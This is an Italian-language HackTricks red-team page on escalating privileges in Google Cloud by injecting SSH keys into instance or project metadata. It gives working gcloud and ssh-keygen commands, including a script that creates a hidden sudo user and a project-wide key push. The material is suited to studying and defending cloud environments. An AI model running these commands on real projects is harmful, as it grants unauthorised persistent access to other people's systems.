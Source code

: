 # GCP - Aggiungi Metadati SSH Personalizzati

## GCP - Aggiungi Metadati SSH Personalizzati

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}

### Modifica dei metadati <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

La modifica dei metadati su un'istanza potrebbe portare a **significativi rischi per la sicurezza se un attaccante ottiene i permessi necessari**.

#### **Incorporazione di chiavi SSH nei metadati personalizzati**

Su GCP, **i sistemi Linux** spesso eseguono script dall'[Ambiente Ospite Linux Python per Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Un componente critico di questo è il [daemon degli account](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), progettato per **controllare regolarmente** l'endpoint dei metadati dell'istanza per **aggiornamenti alle chiavi pubbliche SSH autorizzate**.

Pertanto, se un attaccante può modificare i metadati personalizzati, potrebbe far sì che il daemon trovi una nuova chiave pubblica, che verrà elaborata e **integrata nel sistema locale**. La chiave verrà aggiunta al file `~/.ssh/authorized_keys` di un **utente esistente o potenzialmente creando un nuovo utente con privilegi `sudo`**, a seconda del formato della chiave. E l'attaccante sarà in grado di compromettere l'host.

#### **Aggiungi chiave SSH a un utente privilegiato esistente**

1. **Esamina le chiavi SSH esistenti sull'istanza:**
*   Esegui il comando per descrivere l'istanza e i suoi metadati per localizzare le chiavi SSH esistenti. La sezione rilevante nell'output sarà sotto `metadata`, specificamente la chiave `ssh-keys`.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* Fai attenzione al formato delle chiavi SSH: il nome utente precede la chiave, separato da due punti.
2. **Prepara un file di testo per i metadati della chiave SSH:**
* Salva i dettagli dei nomi utente e delle loro corrispondenti chiavi SSH in un file di testo chiamato `meta.txt`. Questo è essenziale per preservare le chiavi esistenti mentre ne aggiungi di nuove.
3. **Genera una nuova chiave SSH per l'utente target (`alice` in questo esempio):**
*   Usa il comando `ssh-keygen` per generare una nuova chiave SSH, assicurandoti che il campo commento (`-C`) corrisponda al nome utente target.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* Aggiungi la nuova chiave pubblica a `meta.txt`, mimando il formato trovato nei metadati dell'istanza.
4. **Aggiorna i metadati della chiave SSH dell'istanza:**
*   Applica i metadati aggiornati della chiave SSH all'istanza utilizzando il comando `gcloud compute instances add-metadata`.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **Accedi all'istanza utilizzando la nuova chiave SSH:**
*   Connettiti all'istanza con SSH utilizzando la nuova chiave, accedendo alla shell nel contesto dell'utente target (`alice` in questo esempio).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Crea un nuovo utente privilegiato e aggiungi una chiave SSH**

Se non viene trovato alcun utente interessante, è possibile crearne uno nuovo a cui verranno concessi privilegi `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### Chiavi SSH a livello di progetto <a href="#sshing-around" id="sshing-around"></a>

È possibile ampliare l'accesso SSH a più Macchine Virtuali (VM) in un ambiente cloud **applicando le chiavi SSH a livello di progetto**. Questo approccio consente l'accesso SSH a qualsiasi istanza all'interno del progetto che non ha esplicitamente bloccato le chiavi SSH a livello di progetto. Ecco una guida riassuntiva:

1. **Applica le chiavi SSH a livello di progetto:**
*   Usa il comando `gcloud compute project-info add-metadata` per aggiungere le chiavi SSH da `meta.txt` ai metadati del progetto. Questa azione garantisce che le chiavi SSH siano riconosciute in tutte le VM del progetto, a meno che una VM non abbia abilitata l'opzione "Blocca le chiavi SSH a livello di progetto".

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **SSH nelle istanze utilizzando le chiavi a livello di progetto:**
* Con le chiavi SSH a livello di progetto in atto, puoi SSH in qualsiasi istanza all'interno del progetto. Le istanze che non bloccano le chiavi a livello di progetto accetteranno la chiave SSH, concedendo accesso.
* Un metodo diretto per SSH in un'istanza è utilizzare il comando `gcloud compute ssh [INSTANCE]`. Questo comando utilizza il tuo nome utente attuale e le chiavi SSH impostate a livello di progetto per tentare l'accesso.

## Riferimenti

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}
